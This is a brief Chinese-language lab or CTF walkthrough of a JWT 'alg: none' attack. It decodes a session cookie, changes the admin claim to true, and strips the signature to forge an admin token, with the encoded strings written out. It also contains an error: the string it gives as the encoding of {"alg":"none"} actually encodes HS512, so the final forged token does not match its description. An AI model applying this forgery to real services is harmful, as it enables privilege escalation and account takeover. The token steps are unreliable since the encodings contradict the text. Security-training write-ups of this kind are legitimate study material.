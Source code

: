 ![alt text](image-8.png)  
cookie中的access_token有两个点分隔，是JWT的结构  

2. 把前两部分解码  
header 
```
{"alg":"HS512"}
```
payload  
``` 
{"iat":1742288205,"admin":"false","user":"Jerry"}
```  

将admin的值修改为true，然后编码  
```
eyJpYXQiOjE3NDIyODgyMDUsImFkbWluIjoidHJ1ZSIsInVzZXIiOiJKZXJyeSJ9
```

3.然后就要修改签名，header部分alg的值为HS512  




4. 不知道密码，签名算法的值可以是"none"，将其修改之后编码，那么签名的结果为空，{"alg":"none"}编码结果为  
```
eyJhbGciOiJIUzUxMiJ9
```  
新的JWT为
```
eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE3NDIyODgyMDUsImFkbWluIjoidHJ1ZSIsInVzZXIiOiJKZXJyeSJ9.  
```  
注意最后的点要留下  

5. 修改后发送  